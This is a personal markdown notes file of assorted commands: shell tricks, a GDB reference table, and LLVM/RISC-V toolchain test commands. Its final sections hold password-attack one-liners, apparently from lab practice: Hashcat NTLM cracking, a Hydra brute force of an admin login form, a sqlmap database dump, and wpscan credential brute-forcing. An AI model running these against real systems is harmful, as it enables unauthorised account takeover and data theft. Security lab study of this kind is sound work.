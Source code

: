 ```yaml
---
title: "Useful Commands Dump"
tags:
  - help
  - work
---
```

# Useful Commands Dump
---
Well... where I dump any useful commands I find and them hopefully I'll categorise them... eventually...

## Terminal
* Change file extension of all files:
```bash
for file in *.txt; do mv "$file" "${file%.txt}.md"; done
```

* If Git is hanging after total is because:
```bash
git config --global http.postBuffer 157286400
```

- Run previous argument:

```bash
!$
```

## GDB
| Command                      | Description                                                      |
| ---------------------------- | ---------------------------------------------------------------- |
| `gdb --args <binary> <args>` | Start the program with an argument list.                         |
| `b FileName:linenum`         | For setting a breakpoint.                                        |
| `bt`                         | For getting backtrace.                                           |
| `thread apply all bt`        | For getting the backtrace of all threads.                        |
| `p variableName`             | For printing the value of a variable/object.                     |
| `up`                         | For going up the stack frame.                                    |
| `down`                       | For going down the stack frame.                                  |
| `l`                          | For listing source lines of code around the current stack frame. |
| `disassemble`                | For showing the assembly code of the current function.           |
| `n`                          | For executing the next source instruction.                       |
| `si`                         | For executing the next machine instruction.                      |
| `q`                          | To quit the debugger.                                            |
| `r`                          | To run the program.                                              |

The docs are [here](https://www.gnu.org/software/gdb/documentation/).
More info on [GDB](notes/general/gdb.md).

## The dump of dumps

### BSC/Tiger related
```bash
runtest --tool=gcc --tool_exec=bsc-elf-clang  --tool_opts= --directory=${HOME}/tiger/gcc-for-llvm-testing/gcc/testsuite/gcc.target --srcdir=${HOME}/tiger/gcc-for-llvm-testing/gcc/testsuite --target_board=bsc-embdebug --target=bsc-elf "bsc.exp=bsc/or.c"
```

```bash
export PATH=${HOME}/riscv32-clang-gcc-testing/install/bin:$PATH
export BSC_TIMEOUT=300
export BSC_TRIPLE=bsc-elf
export BSC_SIM_COMMAND=bsc-run
export BSC_SIM_FLAGS=
export DEJAGNU=${HOME}/tiger/toolchain/site.exp
export TOOLDIR=${HOME}/tiger/toolchain/
```

```bash
bsc-elf-gdb -ex 'target remote | embdebug --soname bsc --stdin' -ex 'break exit' -ex 'break abort' test2.exe
```

```bash
llvm-objdump -d <testobject>
```

```bash
bsc-run --max-steps=200 --trace-inst --trace-regs --trace-stack ds.exe 2>&1 | tee output.txt
```

```bash
pietraferreira@tom:~/insn-test-tiger$ bsc-elf-gdb -ex 'target remote | embdebug --soname bsc --stdin' -ex 'break exit' -ex 'break abort' sub.exe
```

Ask the front end to produce unoptimised LLVM IR:
```bash
bsc-elf-clang -Wall -O0 -S -emit-llvm --target=bsc 20180309-1.c -o 20180309-1.ll
```

Compile but stop at assembly:
```bash
llc --debug -mtriple=bsc 20180309-1.ll -o 20180309-1.s
```

```bash
llvm-objdump -d sim-test.exe
```

```bash
bsc-elf-gdb sim-test.exe -ex "target remote | embdebug --soname sysc-bsc --vcd=trace-do --debug=0x00070000 --clk-mhz=1 --sim-cycles=10000 --stdin" -ex load -ex c -ex detach -ex quit 2>&1 | tee sim-test.log
```

## Website URL Fix
```bash
grep -rl 'notes/images' . | sort | uniq | xargs perl -e "s/assets/assets\/engineer-training/" -pi
```

## Hashcat
```bash
hashcat -m 1000 pass.txt ../Desktop/rockyou.txt
```

## Hydra
```bash
hydra -l admin -P ../Desktop/rockyou.txt 10.10.187.151 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=iL08cD6b3clJctyo0KNeEsuXx9w7SrkAtggDy0m16fdgDu1lU1uuo3uh6%2FRluRbkD9GutlhMGTHkzw5TKQ%2BHgSoGVo73vHE7yAY2Vsky3EyktnYS%2BIy0jb68wZvhEHGpOLmwYsk3M7NnT45B%2B2jaDdrRfwr94Ks2d1VIKp2LvcNs%2F6rd&__EVENTVALIDATION=5N%2Bcad1wYajo0H2m7Bq3nlBqYeKcha9MeicRSms1xOrJ8b9v%2FiDF9nj6Kge38NGN6KBMhWEtiNyCZFWTMItDUQu34YiMN8vVxQv6lQEgBw5RWhtEihlALnJsM5gAhf89mlKiwmAbHq2Lz0jR30paNwnGrt5M%2Fwj7m6oohs8%2F8JQKoaoM&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed" -vv
```

## SQLmap
```bash
sqlmap -r request.txt --dbms=mysql --dump
```

## Wordpress
Enumeration:

```bash
wpscan --url 10.10.101.40/blog
```

Look for vulnerable plugins and usernames:

```bash
wpscan --url 10.10.101.40/blog --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 50
```

## Git
```bash
--ff-only
```

